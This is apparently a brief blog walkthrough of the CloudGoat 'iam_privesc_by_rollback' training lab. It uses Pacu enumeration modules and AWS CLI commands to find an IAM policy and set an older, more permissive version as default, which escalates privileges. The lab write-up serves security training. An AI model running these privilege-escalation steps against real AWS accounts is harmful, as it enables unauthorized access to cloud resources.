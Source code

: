```yaml
---
layout: post
title: CloudGoat iam_privesc_by_rollback
date:   2019-09-23 12:00:00
categories: howto
permalink: "/howto/cloudgoat/iam-privesc-by-rollback"
---
```


For this event we’ll start by leveraging the Pacu tool to do some basic account enumeration:
```
run iam__enum_account
```

Looks like we don’t have enough permission
```
iam__bruteforce_permissions
iam__enum_users_roles_policies_groups
```

Then within pacu we can run the ‘Data’ command to see information associated with the findings. Looks like there is a specific policy listed for our user account

aws iam list-policy-versions --policy-arn arn:aws:iam::944882903810:policy/cg-raynor-policy

Notice default version is 1

#Screenshot here

```
aws iam get-policy-version --policy arn:aws:iam::944882903810:policy/cg-raynor-policy --version-id v3
```

Notice version

```
aws iam set-default-policy-version --policy arn:aws:iam::944882903810:policy/cg-raynor-policy --version-id v3
```

Now run the list policy versions command, notice default is now 3

```
aws iam list-policy-versions --policy-arn arn:aws:iam::944882903810:policy/cg-raynor-policy
```

And we can now run aws__enum_account